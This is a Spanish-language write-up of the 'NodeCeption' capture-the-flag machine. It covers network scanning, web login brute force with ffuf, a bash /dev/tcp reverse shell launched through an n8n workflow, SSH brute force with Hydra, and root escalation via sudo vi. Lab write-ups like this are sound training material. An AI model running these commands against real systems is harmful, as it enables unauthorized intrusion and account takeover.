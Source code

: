 # 🕵️‍♂️ NodeCeption | TheHackersLabs
## ℹ️ Descripción
Nodeception es un reto de pentesting que combina enumeración web, explotación de servicios en Node.js y análisis de configuraciones inseguras. Tu misión será descubrir credenciales ocultas en código fuente, acceder a un panel n8n mal protegido y escalar privilegios desde un flujo automatizado hasta obtener acceso como root. Ideal para practicar fuerza bruta, post-explotación y abuso de binarios con SUID o sudoers mal configurados.

## 📡 Reconocimiento
### 🌐 Descubrimiento de red
Realicé un escaneo ARP para identificar los dispositivos en la red:
```bash
sudo arp-scan -I eth0 --localnet
```
Se identificó el host 192.168.1.115.
```bash
ping -c 1 192.168.1.115
```
La máquina respondió correctamente, confirmando que estaba activa.

### 🔍 Escaneo de puertos y servicios
Se ejecutó un escaneo masivo con Nmap:
```bash
nmap -p- --open -sS -sC -sV --min-rate=5000 -Pn -n 192.168.1.115 -oN escaneo.txt
```
Puertos abiertos:
- 22/tcp → OpenSSH 9.6p1
- 5678/tcp → Servicio HTTP (n8n)
- 8765/tcp → Apache 2.4.58

## 🔢 Enumeración
### 🌐 Enumeración del servidor web
Al acceder a http://192.168.1.115:8765, se visualizó la página por defecto de Apache.

En el código fuente HTML se encontró este comentario:
```text
usuario@maildelctf.com
Espero que hayas cambiado la contraseña como se te indicó.
Recuerda: mínimo 8 caracteres, al menos 1 número y 1 mayúscula.
```

Se sospecha de un login oculto → se usó Gobuster:
```bash
gobuster dir -u http://192.168.1.115:8765 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,html,txt
```
Resultado:
/login.php (Status: 200)

### 🕵️ Fuerza bruta HTTP
La interfaz de login solicita correo + contraseña. Se utilizó Burp Suite para capturar la petición y luego:
```bash
ffuf -w /usr/share/wordlists/rockyou.txt -X POST \
 -d "email=usuario@maildelctf.com&password=FUZZ" \
 -u http://192.168.1.115:8765/login.php \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -mc all -fs 1808
```
Credenciales válidas encontradas:
```text
usuario@maildelctf.com : Password1
```
Acceso exitoso al panel.

## 💥 Explotación
### 📦 Acceso al panel n8n
Con las mismas credenciales accedimos a http://192.168.1.115:5678, el panel de n8n.

Se creó un workflow malicioso con un nodo Execute Command que lanzó una reverse shell:
```bash
bash -c 'bash -i >& /dev/tcp/192.168.1.109/4444 0>&1'
```
En el atacante:
```bash
nc -nlvp 4444
```
Resultado: shell como thl.

🐚 Reverse Shell
Se ejecutó manualmente el workflow desde la interfaz.

En el equipo atacante se obtuvo una reverse shell como usuario thl.

## 🧗 Escalada de Privilegios
### 🔐 Sudo -l
```text
(ALL) NOPASSWD: /usr/bin/vi
(ALL : ALL) ALL
```

### 🔐 Intento de Escalada con sudo vi
Se intentó ejecutar:
```bash
sudo /usr/bin/vi
```
Pero pedía contraseña a pesar del NOPASSWD, probablemente por interferencia del segundo sudo rule.

### 🧨 Fuerza bruta con Hydra
Se usó hydra para forzar el acceso por SSH:
```bash
hydra -l thl -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.115 -vvv
```
Resultado:
```text
login: thl
password: basketball
```

### 🔼 Escalada de Privilegios (root)
Ahora con TTY funcional (por SSH directo) se ejecutó:
```bash
sudo vi -c ':!/bin/sh' /dev/null
```
Resultado:
```text
# whoami
root
```

## 🏁 Post Escalada
- Se accedió al sistema con permisos de root.
- Se localizaron y leyeron flags finales.
